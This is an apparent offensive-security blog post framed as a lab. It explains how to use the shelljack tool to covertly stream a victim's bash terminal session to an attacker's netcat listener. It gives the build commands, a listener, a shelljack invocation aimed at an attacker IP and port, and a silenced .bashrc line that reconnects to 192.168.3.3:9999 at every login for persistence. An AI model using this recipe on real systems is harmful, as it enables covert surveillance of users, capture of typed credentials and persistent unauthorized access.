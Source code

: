 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp 9999
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:9999 $$
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc_1.png)

Attacker:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n 192.168.3.3:9999 $$ &>/dev/null
```

Now, everytime the victim logs in the machine, if we have the listener, he is going to connect us.
